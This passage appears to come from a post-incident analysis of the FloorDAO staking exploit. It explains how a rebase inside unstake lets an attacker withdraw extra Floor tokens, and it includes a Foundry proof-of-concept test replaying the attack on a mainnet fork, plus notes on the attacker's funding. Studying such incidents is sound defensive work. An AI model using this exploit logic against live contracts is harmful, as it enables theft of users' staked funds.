 However, if sFloor tokens are used for the `unstake` operation, only the same amount of Floor tokens as previously staked can be withdrawn. The additional tokens remain staked in the contract as sFloor tokens because the increase in tokens occurs during the `rebase` within the `unstake` operation. These additional tokens can be withdrawn by using the `wrap` function to convert sFloor tokens to gFloor tokens. But if sFloor is converted to gFloor using `wrap`, Floor can be withdrawn entirely. This is because the `unstake` function recalculates the amount using `balanceFrom` after the `rebase` operation.

Other users can also acquire more Floor tokens after the attack, as demonstrated in the following code:

```solidity
function testOthers() external {
    uint attackBlockNumber = 18068772;
    vm.rollFork(attackBlockNumber);

    deal(address(floor), address(0x1234), 100 * 10**9);
    vm.startPrank(address(0x1234));
    floor.approve(address(staking), type(uint256).max);
    staking.stake(address(0x1234), 100 * 10**9, true, true);  // get sFloor
    vm.stopPrank();

    deal(address(floor), address(this), 100_000 * 10**9);

    uint balanceAttacker = floor.balanceOf(address(this));
    floor.approve(address(staking), type(uint256).max);
    sFloor.approve(address(staking), type(uint256).max);
    staking.stake(address(this), balanceAttacker, false, true);  // get sFloor
    uint gFloorBalance = gFloor.balanceOf(address(this));
    staking.unstake(address(this), gFloorBalance, true, false);
    balanceAttacker = floor.balanceOf(address(this));
    emit log_named_decimal_uint("Finally attacker Floor", balanceAttacker, floor.decimals());
    emit log_named_decimal_uint("Finally 0x1234 sFloor", sFloor.balanceOf(address(0x1234)), sFloor.decimals()); // same increased rate
}
```

The results show that other users who have staked normally also have more sFloor tokens.

Furthermore, because the Floor protocol has not been very active for a long time, the epoch has been lagging behind for quite some time. Therefore, this attack could have been executed much earlier. Attempting the attack at block 17068772 would yield approximately 53 ETH.

### Attack Flow

Analyzing the entire attack process of the [attacker's address](https://etherscan.io/address/0x4453aed57c23a50d887a42ad0cd14ff1b819c750).

![Attack Flow](../image/230905_FloorDAO.assets/1908.png)

First, at around 7:08 AM on September 5th, the attacker initiated the attack by depositing approximately 1 ETH through Tornado Cash.
